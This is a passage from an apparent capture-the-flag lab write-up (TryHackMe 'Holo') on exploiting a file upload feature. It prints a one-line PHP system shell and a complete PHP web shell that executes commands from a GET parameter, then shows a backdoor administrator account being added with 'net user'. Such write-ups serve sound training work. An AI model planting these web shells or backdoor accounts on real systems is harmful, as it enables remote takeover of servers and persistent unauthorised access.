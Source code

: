 ## Exploiting the uploads fucntionally

After attempting to upload a basic PHP shell `<?php system($_GET['lfi']); ?>`, it was swiftly removed without executing commands. Consequently, I opted to upload a web shell instead, in pursuit of achieving the desired functionality.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

and we did have command execution

![Alt text](/assets/img/tryhackme/Networks/Holo/h27.png)

checking whoami, I found out that I am nt/authority so the best thing is , I created another user with the command 
`net user JohnDoe password123 /add`


